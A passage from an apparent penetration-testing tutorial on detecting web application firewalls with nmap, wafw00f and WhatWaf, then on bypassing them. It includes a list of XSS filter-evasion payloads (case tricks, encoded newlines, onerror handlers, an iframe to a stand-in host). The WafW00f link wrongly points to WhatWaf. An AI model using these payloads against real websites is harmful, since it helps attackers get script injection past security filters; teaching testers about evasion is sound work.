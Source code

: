 
```
$ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 21:43 PDT  
Nmap scan report for example.com (xxx.xxx.xxx.xxx)  
Host is up (0.20s latency).  
  
PORT STATE SERVICE  
443/tcp open https  
| http-waf-detect: IDS/IPS/WAF detected:  
|\_example.com:443/?p4yl04d3=<script>alert(document.cookie)</script>  
  
Nmap done: 1 IP address (1 host up) scanned in 8.81 seconds
```
2. [WafW00f](https://github.com/Ekultek/WhatWaf)

Wafw00f is a command line utility that sends commonly-flagged payloads to the given domain name and assess the web server’s response to detect and identify the firewall when possible.


```
$ wafw00f example.com 
```
<img class="graf-image" data-height="419" data-image-id="1*8zeEz07TxwZ8VGBIaqxVvA.png" data-width="714" src="https://cdn-images-1.medium.com/max/800/1*8zeEz07TxwZ8VGBIaqxVvA.png"/>

3. [WhatWaf](https://github.com/Ekultek/WhatWaf)

In addition to detecting a firewall, WhatWaf can attempt to discover a bypass by utilizing tamper scripts and assessing the web server’s response to the various payloads.

<img class="graf-image" data-height="649" data-image-id="1*_pCVKq8cL3ZTghqWG5BAyQ.png" data-width="1220" src="https://cdn-images-1.medium.com/max/800/1*_pCVKq8cL3ZTghqWG5BAyQ.png"/>

The results from WhatWaf are consistent with those of Wafw00f.

Bypassing WAFs
==============

This section will outline some of the potential WAF bypass techniques with examples.

1. Bypassing Regex
------------------

This method applies to the regex filtering done by both the WAF and web server. During a black box penetration test, finding the regular expression used by the WAF may not be an option. If the regex is accessible, this [article](https://www.secforce.com/blog/bypassing-wafs-web-application-filters/) explains regex bypass through case studies.

Commmon bypasses include changing the case of the payload, using various encodings, substituting functions or characters, using an alternative syntax, and using [linebreaks](https://www.aleksandrhovhannisyan.com/blog/crlf-vs-lf-normalizing-line-endings-in-git/) or tabs. The examples below demonstrate some approaches to bypassing regex with comments.


```
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag  
<<script>alert(XSS)</script> #prepending an additional "<"  
<script>alert(XSS) // #removing the closing tag  
<script>alert`XSS`</script> #using backticks instead of parenetheses  
java%0ascript:alert(1) #using encoded newline characters  
<iframe src=http://malicous.com < #double open angle brackets  
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags  
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected  
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
```
Obfuscation
-----------

